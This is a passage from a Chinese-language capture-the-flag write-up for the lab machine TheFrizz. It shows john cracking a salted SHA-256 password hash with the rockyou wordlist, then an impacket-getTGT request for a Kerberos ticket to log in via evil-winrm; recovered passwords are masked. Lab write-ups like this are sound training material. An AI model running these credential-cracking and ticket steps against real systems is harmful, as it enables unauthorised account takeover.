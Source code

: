 ## Crack Passwd

得到了密码**hash**以及加密的盐，加密方式应该是**SHA-256**

注意！！！！

这里使用**john**来进行爆破，注意哈希格式

```
[root@kali] /home/kali/TheFrizz  
❯ john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                                              ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxx (?)   
```

经过验证，密码是正确的

![](./images/image-287.png)

## Unexpected User

这里无法直接通过密码登录到**Evil-winrm**

尝试通过**Kerberos**请求票据，然后再尝试**evil-Winrm**的票据登录

```
[root@kali] /home/kali/TheFrizz  
❯ ntpdate frizzdc.frizz.htb                                                                 

[root@kali] /home/kali/TheFrizz  
❯ impacket-getTGT frizz.htb/'f.frizzle':'xxxxxxxxxxxxx' -dc-ip frizzdc.frizz.htb     

[*] Saving ticket in f.frizzle.ccache

[root@kali] /home/kali/TheFrizz  
❯ export KRB5CCNAME=f.frizzle.ccache  
```
